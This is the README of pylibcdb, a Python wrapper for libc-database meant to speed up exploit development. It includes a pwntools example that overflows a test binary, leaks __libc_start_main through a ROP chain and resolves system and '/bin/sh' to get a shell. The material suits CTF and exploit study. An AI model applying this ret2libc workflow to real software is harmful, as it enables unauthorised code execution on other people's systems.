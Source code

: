 # pylibcdb

pylibcdb is a python>=3.7 [libc_database](https://github.com/niklasb/libc-database) wrapper, its purpose is to improve exploit development tasks like ASLR bypass with an unknown libc.

With time i'd like to add more features and automated useful functions, for now this is the basic version.

### Requirements

There aren't python dependeces for now, but you need to install [libc_database](https://github.com/niklasb/libc-database) locally.

### Context

- x86_64 Linux

### Installation
```bash
git clone https://github.com/Neetx/pylibcdb
cd pylibcdb
python setup.py install
```

### Basic usage

```python
from pylibcdb.LibcDB import LibcDB

libcdb = LibcDB("/path/to/your/libc-database")
libc_name = libcdb.find_by_address("0x7fe7ac9a7fc0", symbol="__libc_start_main") #leaked __libc_start_main is default for symbol
print(libc_name)
libc_path = libcdb.download_by_name(libc_name)
print(libc_path)
```

```
libc6_2.31-0ubuntu9.1_amd64
/path/to/your/libc-database/libs/libc6_2.31-0ubuntu9.1_amd64/libc-2.31.so
```
This .so can be easily analyzed (or used with [pwntools](https://github.com/Gallopsled/pwntools) ELF()) to discovery function addresses and build a ROP chain.
In this way there's no need to launch "find" and "download" scripts manually with several copy-paste.

#### A more detailed example

```python
from pwn import *
from pylibcdb.LibcDB import LibcDB

p = process("./vuln_test")
elf = ELF("./vuln_test")
rop = ROP(elf)

puts = elf.plt['puts']
main = elf.symbol['main']
libc_start_main = elf.symbols['__libc_start_main']
pop_rdi = (rop.find_gadget(['pop rdi', 'ret']))[0]
ret = (rop.find_gadget(['ret']))[0]

base_payload = "A"*32 + "B"*8    #this must change for every target binary
rop = base_payload.encode() + p64(pop_rdi) + p64(libc_start_main) + p64(puts) + p64(main)

p.sendline(rop)   #this sending and receiving changes for every target binary
received = p.recvline().strip()
leak = u64(received.ljust(8, "\x00".encode()))

libcdb = LibcDB("/path/to/your/libc-database")
libc_name = libcdb.find_by_address(leak, symbol="__libc_start_main") #leaked __libc_start_main is default for symbol
libc_path = libcdb.download_by_name(libc_name)

libc = ELF(libc_path)
libc.address = leak - libc.sym["__libc_start_main"]

binsh = next(libc.search("/bin/sh".encode()))
system = libc.sym["system"]
```

At this point we have all we need to craft a final ROP chain and get shell. This is a workflow example in facts things may (sure) change for each scenario, but the idea is to not let target binary crashes and not stop the exploit execution to launch libc-database scripts manually.

Later I will release a complete and working example with a vulnerable binary.

#### Scripts
Without this library you have to launch:
```
./find __libc_start_main LEAKED_ADDRESS
./download LIBC_NAME_OUTPUT
```
And then you have to copy the shared object to your working directory or to use its absolute path.

### Contacts

[neetx](neetx@protonmail.com)

### License

Copyright 2020 Neetx

This file is part of pylibcdb.

pylibcdb is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, either version 3 of the License, or
(at your option) any later version.

pylibcdb is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
GNU General Public License for more details.

You should have received a copy of the GNU General Public License
along with pylibcdb.  If not, see <http://www.gnu.org/licenses/>.
